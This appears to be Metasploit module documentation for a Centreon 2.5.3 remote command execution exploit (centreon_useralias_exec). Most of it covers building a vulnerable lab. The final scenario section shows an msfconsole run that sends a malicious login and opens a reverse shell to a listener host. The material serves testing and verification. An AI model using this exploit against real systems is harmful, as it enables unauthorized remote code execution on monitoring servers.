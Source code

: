 ## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install. My user was `centreon`
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
```
sudo apt purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`
sudo add-apt-repository ppa:ondrej/php
sudo apt-get install php5.6
sudo apt-get install php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml php5.6-gd php5.6-ldap php5.6-sqlite3
sudo apt-get install build-essential cmake librrd-dev libqt4-dev libqt4-sql-mysql libgnutls28-dev python-minimal
sudo apt-get install tofrodos bsd-mailx lsb-release mysql-server libmysqlclient-dev apache2 php-pear rrdtool librrds-perl libconfig-inifiles-perl libcrypt-des-perl libdigest-hmac-perl libgd-gd2-perl snmp snmpd libnet-snmp-perl libsnmp-perl
  select OK
  select No Configuration
sudo apt-get install snmp-mibs-downloader
```
  3. Enable php5.6 in Apache with `a2enmod`, disable php7.0 with `a2dismod`
```
a2enmod php5.6
a2dismod php7.0
```
  4. Restart apache with `sudo apache2ctl restart`
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
```
wget http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz
tar xvf nagios-plugins-2.1.1.tar.gz
cd nagios-plugins-2.1.1/
./configure
make
sudo make install
```
  5.1 If during make, you get an sslv3 method not found error (https://support.nagios.com/forum/viewtopic.php?f=35&t=36601&p=168235&hilit=SSLv3#p168235)
```
--- plugins/sslutils.c.orig   2016-01-14 20:02:06.419867000 +0100
+++ plugins/sslutils.c   2016-01-14 20:01:36.091492000 +0100
@@ -70,8 +70,13 @@
#endif
      break;
   case 3: /* SSLv3 protocol */
+#if defined(OPENSSL_NO_SSL3)
+      printf(("%s\n", _("CRITICAL - SSL protocol version 3 is not supported by your SSL library.")));
+      return STATE_CRITICAL;
+#else
      method = SSLv3_client_method();
      ssl_options = SSL_OP_NO_SSLv2 | SSL_OP_NO_TLSv1;
+#endif
      break;
   default: /* Unsupported */
      printf("%s\n", _("CRITICAL - Unsupported SSL protocol version."));
```
  6. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-clib
cd centreon-clib/build
cmake .
make
sudo make install
```
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-broker
cd centreon-broker/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  8. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-engine
cd centreon-engine/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html) but only the command line portion.
```
sudo mkdir /var/log/centreon-engine
cd ~
sudo pear install XML_RPC-1.4.5
(may need to install php-xml)
wget https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
tar vxf bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
cd centreon-2.5.3
sudo ./install.sh -i
  <enter>
  q
  y
  y
  y
  y
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  <enter>
  <enter>
  centreon
  <enter>
  /var/log/centreon-engine
  /home/centreon/nagios-plugins-2.1.1/plugins
  <enter>
  /etc/init.d/centengine
  /usr/local/bin/centengine
  /usr/local/etc/
  /usr/local/etc/
  /etc/init.d/centengine
  <enter>
  y
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
  <enter>
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
```
  10. Fix apache config
```
sudo cp /etc/apache2/conf.d/centreon.conf /etc/apache2/conf-available/
sudo sed -i 's/Order allow,deny/Require all granted/' /etc/apache2/conf-available/centreon.conf
sudo sed -i 's/allow from all//' /etc/apache2/conf-available/centreon.conf
sudo a2enconf centreon
sudo service apache2 reload
```
  11. Configure via website.  Browse to <ip>/centreon
```
next
next
select centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/bin/centenginestats
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  next
select centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/cbmod.so
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  next
Pick whatever details about your user you want, next
Fill in mysql Root password, next
next
next
finish
```
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.

    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
